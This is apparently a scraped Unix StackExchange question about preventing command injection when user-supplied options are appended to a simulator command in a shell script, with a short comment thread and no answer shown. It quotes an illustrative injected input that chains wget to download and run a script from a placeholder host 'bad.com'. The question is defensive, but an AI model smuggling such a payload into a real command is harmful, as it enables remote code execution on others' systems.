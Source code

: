 
##
#
https://unix.stackexchange.com/questions/82643/how-to-prevent-command-injection-through-command-options
#
https://unix.stackexchange.com/questions/355453/how-to-re-write-this-function-to-avoid-argument-injection
#
##

How to prevent command injection through command options?
Asked 11 years, 4 months ago
Modified 2 years, 11 months ago
Viewed 19k times
15

I have an wrapper application where I need to let the user specify custom options to pass to a simulator. However, I want to make sure the user doesn't inject other commands through the user options. What's the best way to accomplish this?

For example.

User provides: -a -b
Application executes: mysim --preset_opt -a -b
However, I don't want this to happen:

User provides: && wget http:\\bad.com\bad_code.sh && .\bad_code.sh
Application executes: mysim --preset_opt && wget http:\\bad.com\bad_code.sh && .\bad_code.sh
Currently, I'm thinking that I could simply surround every user provided option with single quotes ' and strip out any user-provided single quotes, so that the command in the last example would turn out to be a harmless:

mysim -preset_opt '&&' 'wget' 'http:\\bad.com\bad_code.sh' '&&' '.\bad_code.sh'

Note: The mysim command executes as part of a shell script in a docker/lxc container. I'm running Ubuntu.

bashshellsecurityquotingarguments
Share
Improve this question
Follow
edited Jul 11, 2013 at 23:20
Gilles 'SO- stop being evil''s user avatar
Gilles 'SO- stop being evil'
848k199199 gold badges1.8k1.8k silver badges2.3k2.3k bronze badges
asked Jul 11, 2013 at 14:17
Victor L's user avatar
Victor L
41922 gold badges44 silver badges1313 bronze badges
Are you using eval to run the application? If not, the injection should not happen: x="&& echo Doomed" ; echo $x – 
choroba
 CommentedJul 11, 2013 at 14:31 
1
No, I'm not using eval. I'm calling the executable mysim inside a shell script. I am seeing the injection happen if I simply copy the string of options that the user provides and paste it at the end of mysim command. – 
Victor L
 CommentedJul 11, 2013 at 14:49
Does the wrapper application copy and paste the string of options? – 
choroba
 CommentedJul 11, 2013 at 15:36
Yes, the user options come in as a single string, like -a -b. So I'm looking to ensure that additional commands aren't injected in that string. – 
Victor L
 CommentedJul 11, 2013 at 16:21 
1